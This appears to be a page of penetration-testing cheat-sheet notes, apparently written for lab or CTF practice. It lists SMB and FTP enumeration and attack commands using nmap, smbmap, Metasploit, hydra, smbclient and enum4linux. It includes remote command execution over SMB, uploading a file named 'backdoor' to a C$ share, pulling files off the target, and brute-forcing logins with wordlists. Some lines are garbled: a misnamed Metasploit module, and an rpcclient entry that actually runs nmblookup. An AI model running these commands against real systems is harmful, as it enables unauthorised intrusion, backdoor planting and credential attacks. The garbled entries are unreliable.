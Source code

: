 **nmap**: `nmap -p445 --script smb-server-stats --script-args smbusername=administrator,smbpassword=smbserver_771 ip`

**nmap**: `nmap -p445 --script smb-enum-domains --script-args smbusername=administrator,smbpassword=smbserver_771 ip`

**nmap**: `nmap -p445 --script smb-enum-groups --script-args smbusername=administrator,smbpassword=smbserver_771 ip`

**nmap**: `nmap -p445 --script smb-enum-shares,smb-ls --script-args smbusername=administrator,smbpassword=smbserver_771 ip`


enumeration with smbmap:
**smbmap**: `smbmap -u username -p password -H target_IP`

**smbmap**: `smbmap -u guest -p "" -d . -H target_IP`

**smbmap**: `smbmap -u administrator -p smbserver_771 -d . -H target_IP`

**smbmap**: `smbmap -u administrator -p smbserver_771 -H target_IP -x "ipconfig"`

**smbmap**: `smbmap -u administrator -p smbserver_771 -d . -H target_IP -L`

**smbmap**: `smbmap -u administrator -p smbserver_771 -d . -H target_IP -r "C$"`

**smbmap**: `smbmap -u administrator -p smbserver_771 -d . -H target_IP --upload "/root/backdoor" "c$\backdoor"`

**smbmap**: `smbmap -u administrator -p smbserver_771 -d . -H target_IP --download "c$\flag"`


enumeration with metasploit:
**metasploit**: `auxiliary/smb/smb_version`

**metasploit**: `auxiliary/scanner/smb/smb_enumshares`

**metasploit**: `auxiliary/scanner/smb/sum_login` -> to bruteforce the passwords/users

hydra: `hydra -l username -P wordlist.txt $ip smb`

**nmblookup**: `nmblookup -A $ip` -> to list 

**smbclient**: `smbclient -L $ip -N` -> to list

**smbclient**: `smbclient //$ip//path -N` -> to connect

**smbclient**: `smbclient //$ip//path -U username ` -> to connect

**rpcclient**: `nmblookup -U "" -N $ip` -> to connect
`>enumdomusers` 

**enum4linux**: `enum4linux $ip`
-U for user enumeration
-G for group enumeration
-S for shares enumeration


## FTP
**anonymous login**: `ftp $ip` 

**hydra**: `hydra -L users.txt -P passwords.txt $ip ftp`

